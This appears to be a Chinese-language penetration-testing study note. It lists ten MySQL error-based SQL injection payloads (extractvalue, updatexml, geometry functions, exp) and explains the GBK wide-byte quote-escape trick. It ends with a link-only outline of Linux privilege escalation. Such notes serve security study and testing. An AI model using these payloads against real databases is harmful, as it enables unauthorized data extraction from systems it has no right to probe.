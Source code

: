 ## 报错注入

报错注入的函数有哪些？ 10个
        1）and extractvalue(1, concat(0x7e,(select @@version),0x7e))
        2）通过floor报错 向下取整
        3）+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)
        4）.geometrycollection()select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
        5）.multipoint()select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
        6）.polygon()select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
        7）.multipolygon()select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
        8）.linestring()select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
        9）.multilinestring()select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
       10）.exp()select * from test where id=1 and exp(~(select * from(select user())a));

## 宽字节

在 mysql 中使⽤了 gbk 编码，占⽤ 2 个字节, ⽽ mysql 的⼀种特性, GBK 是多字节编码，它认为两个字节就代表⼀个汉字（前一个ascii码要大于128，才能到汉子的范围），所以 %df 时候会和转义符 \ %5c 进⾏结合, 所以单引号就逃逸了出来, 当第⼀个字节的 ascii 码⼤于 128，就可

```
空格 %20
单引号，%27
反斜杠 %5C

```

若输入为单引号，经过转移后`\'`，即`%5c%27`，当前面有个大于128的，比如%df，则url编码后，%df%5c%27，若用gbk的话，前两个会被当做汉字处理，后面的%27会绕过

## mysql版本

5.0，以下为多用户但单操作，以上为多用户多操作。



# 2.提权

## Linux

>   http://www.kxsy.work/2022/01/23/linux-ti-quan-zong-jie

1.  内核漏洞。

2.  SUID提权

    1.  https://jlkl.github.io/2020/01/27/Web_15/

3.  GNUClibrary动态链接区$ORIGIN溢出提权
